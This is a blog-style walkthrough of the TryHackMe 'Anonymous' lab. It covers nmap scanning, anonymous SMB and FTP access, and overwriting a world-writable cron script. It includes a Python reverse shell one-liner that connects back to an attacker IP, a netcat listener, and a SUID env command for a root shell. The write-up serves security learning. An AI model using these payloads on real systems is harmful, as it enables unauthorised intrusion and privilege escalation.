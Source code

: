 ```yaml
---
title: <img width="50" height="50" alt="img" src="https://github.com/thelocalh0st/thelocalh0st.github.io/assets/95465072/de6eece3-9ff2-4439-9c01-c6433e45bc04"> Anonymous | Tryhackme | Walkthrough 
date: 2024-01-06 07:00:02 +730
categories: [Write Up, TryHackMe]
tags: [anonymous,walkthrough,tryhackme,privilege-escalation,hydra,100-days-of-cybersecurity] # TAG names should always be lowercase


---
```



<!-- <h1 style="color: cyan; text-align: center">100 Day's Of Cybersecurity - Day 6</h1> -->

![anonymous-image-3385687945](https://github.com/thelocalh0st/thelocalh0st.github.io/assets/95465072/bec39529-aa33-4e82-a201-a5ebe01a6d76){: .dark .w-75 .shadow .rounded-10 w='1212' h='668' }



## Nmap 

```
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -sC -T4 10.10.215.229
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-14 07:04 EST
Nmap scan report for 10.10.215.229
Host is up (0.24s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.105.144
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 3s, deviation: 1s, median: 2s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-12-14T12:05:13
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2023-12-14T12:05:14+00:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.56 seconds
```

## 1️⃣ Lets Start with SMB 👨🏻‍💻

```
smbclient -L //10.10.107.211
Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            ANONYMOUS
```

Lets Get into **pics** share 

`smbclient -N \\\\10.10.107.211\\pics`

```
smb: \> ls
  .                                   D        0  Sun May 17 07:11:34 2020
  ..                                  D        0  Wed May 13 21:59:10 2020
  corgo2.jpg                          N    42663  Mon May 11 20:43:42 2020
  puppos.jpeg                         N   265188  Mon May 11 20:43:42 2020
```

Download it through `mget`

```
smb: \> prompt
smb: \> mget *
getting file \corgo2.jpg of size 42663 as corgo2.jpg (87.9 KiloBytes/sec) (average 87.9 KiloBytes/sec)
getting file \puppos.jpeg of size 265188 as puppos.jpeg (470.0 KiloBytes/sec) (average 293.3 KiloBytes/sec)
```

After a hard try on those images with `strings` , `steghide` , `stegosolve` `stegseek` ended up with nothing!! 


## 2️⃣ FTP 

```
ftp 10.10.107.211
Connected to 10.10.107.211.
220 NamelessOne's FTP Server!
Name (10.10.107.211:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||35464|)
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||15525|)
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1548 Jan 25 03:41 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
```

`Download all the three files with mget`

### to_do.txt
```
cat to_do.txt
I really need to disable the anonymous login...it's really not safe
```

### clean.sh 
```
cat clean.sh
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

### removed_files.log
```
cat removed_files.log
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```

## 3️⃣ Get Set GO 🏁 

so this clean.sh is attached to a cronjob basically the clean.sh removes files from /tmp directory and keep the updates in removed_files.log file 

Considering **clean.sh** is running every so often and it has **rwxr-xrwx** permissions we may be able to modify the script on our own system and then upload it to the FTP server replacing the existing file.

## 4️⃣ Getting Reverse shell 


Payload
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.40.128",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```

Listner 
```
nc -lnvp 1234
```

```
namelessone@anonymous:~$ ls
pics  user.txt
```

## 5️⃣ Privilege Escalation

`Gtfobins`

```
namelessone@anonymous:~$ /usr/bin/env /bin/sh -p
# whoami
root
```

![](https://media.giphy.com/media/DAtJCG1t3im1G/giphy.gif)

